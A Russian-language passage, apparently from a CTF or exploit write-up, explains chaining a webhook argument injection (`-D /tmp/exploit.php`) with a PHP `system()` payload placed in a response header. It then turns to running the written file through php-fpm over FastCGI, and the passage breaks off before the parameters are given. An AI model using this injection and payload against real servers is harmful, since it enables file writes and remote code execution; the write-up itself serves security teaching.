 ![webhook](screenshots/webhook.png)

Теперь попробуем передать нашему сервису `<webhook_url> -D /tmp/exploit.php` и затем прочитать файл `/tmp/exploit.php`. К счастью, у нас есть права на запись в директорию `/tmp/` (обычно они есть у всех пользователей), и файл запишется. Кстати, это уже вторая уязвимость — запись (почти) произвольных файлов на сервере:

```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Content-Type: <?php system("id > /tmp/result"); ?>
Transfer-Encoding: chunked
X-Request-Id: 9132decf-25ac-43e9-ad81-0f4cf27f2593
...
```

Теперь в системе есть файл `/tmp/exploit.php`, в котором лежит наш код на PHP. Нужно придумать, как заставить `php-fpm7.4` его исполнить. Я не буду описывать весь протокол CGI, можно самостоятельно найти его спецификацию в интернете. Нас интересует только алгоритм работы `php-fpm7.4`, который удобнее всего посмотреть в исходниках самого PHP (или также найти в интернете): 

- [php-fpm/cgi/fastcgi.c](https://github.com/dreamcat4/php-fpm/blob/master/cgi/fastcgi.c) — файл, описывающий работу протокола CGI 
- [php-fpm/cgi/fastcgi.h](https://github.com/dreamcat4/php-fpm/blob/master/cgi/fastcgi.h) — файл, описывающий формат пакетов CGI

Нам осталось только научиться собирать CGI-пакет с нагрузкой (пример тоже есть в сплоите) и передать его в сокет `php-fpm7.4` со следующими CGI-параметры:
